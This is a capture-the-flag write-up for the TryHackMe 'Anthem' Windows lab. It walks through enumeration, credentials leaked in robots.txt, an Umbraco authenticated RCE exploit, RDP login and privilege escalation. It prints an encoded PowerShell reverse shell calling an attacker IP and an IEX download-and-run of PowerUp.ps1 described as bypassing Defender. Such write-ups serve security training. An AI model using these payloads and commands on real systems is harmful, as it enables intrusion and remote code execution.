










# TryHackMe
------------------------------------
### IP: 10.10.97.171
### Name: Anthem
### Difficulty: Easy
--------------------------------------------

Note: For this writeup I will just be grabbing the user and root flags, and ignoring all the other steps.

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Anthem]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.108.73 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-14 11:22 CDT
Nmap scan report for 10.10.108.73
Host is up (0.13s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-LU09299160F
| Not valid before: 2024-06-13T16:15:09
|_Not valid after:  2024-12-13T16:15:09
| rdp-ntlm-info: 
|   Target_Name: WIN-LU09299160F
|   NetBIOS_Domain_Name: WIN-LU09299160F
|   NetBIOS_Computer_Name: WIN-LU09299160F
|   DNS_Domain_Name: WIN-LU09299160F
|   DNS_Computer_Name: WIN-LU09299160F
|   Product_Version: 10.0.17763
|_  System_Time: 2024-06-14T16:23:06+00:00
|_ssl-date: 2024-06-14T16:23:52+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.51 seconds
```

Looking at port 80 we find a blog:


Taking a look at robots.txt we find a few entries, and what looks to be a password?

```
UmbracoIsTheBest!

# Use for all search robots
User-agent: *

# Define the directories not to crawl
Disallow: /bin/
Disallow: /config/
Disallow: /umbraco/
Disallow: /umbraco_client/
```

If we head to `/umbraco` we find a login page:



Poking around the blog a bit we find two posts:





Ok cool, so we have an email JD@anthem.com and likely know the company's email naming convention, as well as a weird poem about the site admin.

Pasting the poem into Google we find the Name Soloman Grundy, who may be the admin, and because we know the email naming convention we have a potential username of SG@anthem.com


We can use this username with the password discovered in `/robots.txt` to login to the site:



Looking for authenticated exploits for Umbraco we find: https://github.com/noraj/Umbraco-RCE

Lets give it a shot.

### Exploitation

```
┌──(ryan㉿kali)-[~/THM/Anthem]
└─$ python exploit.py -u 'SG@anthem.com' -p 'UmbracoIsTheBest!' -i http://10.10.108.73 -c whoami 
iis apppool\anthem
```

Nice, we have command execution here.

Lets head to revshells.com and grab a base64 encoded Powershell reverse shell:

```
┌──(ryan㉿kali)-[~/THM/Anthem]
└─$ python exploit.py -u 'SG@anthem.com' -p 'UmbracoIsTheBest!' -i http://10.10.108.73 -c powershell.exe -a 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4ANgAuADcAMgAuADkAMQAiACwANAA0ADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA'
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient("10.6.72.91",443);$ ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Rats, looks like AV is enabled.

Remembering that RDP is open on the target I tried SG@anthem.com there, and to my surprise the credentials worked. This is much easier than bypassing Defender (at my skill level at least), so lets go this route.

```
┌──(ryan㉿kali)-[~/THM/Anthem]
└─$ xfreerdp /u:'SG' /p:'UmbracoIsTheBest!' /w:1275 /h:650 /v:10.10.108.73:3389 /cert:ignore 
```

I can then grab the user.txt flag:



### Privilege Escalation

I can download and run PowerUp.ps1 from memory bypassing defender:

```
PS C:\> mkdir temp


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       14/06/2024     18:42                temp


PS C:\> cd temp
PS C:\temp> IEX (New-Object Net.Webclient).downloadstring("http://10.6.72.91/PowerUp.ps1")
PS C:\temp> invoke-allchecks
```

But unfortunately it didn't find anything of interest.

Looking around more I opened up Run, and searched for "recent".

A new hidden folder called backup appeared for me, as well as a file called restore:



But when I click on restore I get access denied:



However I can click into backup, right click on restore.txt, click into 'Security' and add my user SG to users who can access the file, and also click on 'Full Control'



I can then click 'Apply' and then 'Ok'

Now I can access the folder, which contains another password:



I can now RDP in as the administrator with this password and grab the root.txt flag:



Thanks for following along!

-Ryan

